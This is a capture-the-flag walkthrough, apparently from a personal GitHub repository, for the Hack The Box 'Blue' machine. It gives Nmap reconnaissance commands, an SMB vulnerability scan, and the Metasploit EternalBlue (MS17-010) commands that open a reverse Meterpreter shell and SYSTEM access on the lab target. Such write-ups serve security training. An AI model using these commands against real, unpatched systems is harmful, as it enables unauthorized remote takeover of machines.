


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.40 |  | [Blue](https://app.hackthebox.com/machines/blue) |  |

---
### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.40
```

**Results:**

```
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

From our nmap scan, we see that we are dealing with a **Windows 7** machine, with notable port **445 (SMB)** being open.

---
### EternalBlue Exploitation (MS17-010)
Since SMB was running on the target machine, I ran a vulnerability check on the server using nmap's **smb-vuln** scripts:

```shell
sudo nmap -vv -p 445 --script=smb-vuln* --script-args=unsafe=1 10.10.10.40
```

**Results:**

```
PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack ttl 127

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

We discover that the target machine is actually vulnerable to the **EternalBlue (MS17-010)** vulnerability.

We can use Metasploit's eternalblue module to exploit the machine:

```shell
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST tun0
set LPORT 443
run
```

We are able to get an easy Meterpreter shell using the exploit:



With the **shell** command, we can then open a shell on the target, verifying that we are the **SYSTEM** user:



We now have full access to the target machine!

The user flag can be found in the user haris' desktop, while the root flag can be found in the Administrator's desktop (as usual). 